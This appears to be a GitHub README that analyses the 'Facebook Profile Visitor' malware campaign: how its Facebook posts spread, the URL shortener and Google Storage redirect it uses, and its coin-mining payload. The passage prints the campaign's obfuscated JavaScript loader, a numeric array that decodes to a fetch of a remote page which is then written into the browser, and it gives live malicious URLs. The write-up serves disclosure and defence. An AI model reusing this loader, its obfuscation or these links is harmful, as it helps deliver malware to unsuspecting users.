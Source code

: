 # How Facebook Profile Visitor virus works?
## What is it?
<i>Facebook Profile Visitor</i> (Sometimes also called <i>Profile Visitor</i>) is a virus that has spread on Facebook (and Twitter) since 03/2020 until now.

## What does it do?
It mines coin (particularly Monero) using the tool Xmrig on your computer and stoles your Facebook account to spread the virus.

## Example?
![Vietnamese version of the virus](https://user-images.githubusercontent.com/68118236/145680558-47cabfdf-95be-4eae-b13b-7e7fc62a0a43.png)
<br>Vietnamese version of the virus that spread on Facebook, said "Hello, you can know who visited your profile with the Profile Visitor app". It's translated from English using Google Translate API. The images under the text are got from your Active Friend List, see below.

## Some sandbox links
[VirusTotal](https://www.virustotal.com/gui/file/f479135d5db8e2f6dff59252b8e51ebd9414a226df908f994376415c20b9446d/detection)
[Any.run](https://app.any.run/tasks/c13f22e8-be22-4ea2-b350-a97efcfd948e)
[VMRay](https://www.vmray.com/analyses/89516baa335e/report/overview.html)

## How does it work?
<b>Be careful when clicking any of these links!!!</b>

### 1) The link in the Facebook post - how it spread
As you can see in the picture above, the post has the text said "Hello, you can know who visited your profile with the Profile Visitor app", and then the link, and then some pictures of people who visited the person who post's profile (I don't know if that is the real information or not).
<br> The link come in the form of `https://is.gd/` and then some id, for example `dZCN4W`. After some search I found that is.gd is an URL shortener service (but it might be built only for this purpose of spreading the virus onto Facebook)
<br> After clicking the link, it redirects you to the Google Storage API URL.

### 2) Google Storage API
Then you come to some links like `https://storage.googleapis.com/544707c173427ea279a99cbb1451cccb/913820487?ref=facebook&cid=b4a011cf-effb-fc9b-d533-ecc9323874a9&zip=ProfileVisitors%20v5.1.zip&exe=visitors.facebook.com`
<br> It is a REAL data stored on Google Storage on Google Cloud, and if you click view source, the following things comes:
```html

<!DOCTYPE html>
<html translate="no" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
    <script type="text/javascript">
      var bcddet = this;
var gxcei = [95,94,109,92,97,33,27,97,109,109,105,108,51,40,40,104,100,98,102,39,102,94,40,91,101,104,91,39,105,97,105,56,109,98,102,94,54,27,36,61,90,109,94,39,103,104,112,33,34,34,39,109,97,94,103,33,95,110,103,92,109,98,104,103,33,107,94,108,105,104,103,108,94,34,116,6,3,25,25,107,94,109,110,107,103,25,107,94,108,105,104,103,108,94,39,109,94,113,109,33,34,52,6,3,118,34,39,109,97,94,103,33,95,110,103,92,109,98,104,103,33,93,90,109,90,34,116,6,3,25,25,93,104,92,110,102,94,103,109,39,112,107,98,109,94,33,93,90,109,90,34,52,6,3,118,34,52];
var tvswn = "";
var rtpbo = 7;
var cvzkg = "length";
```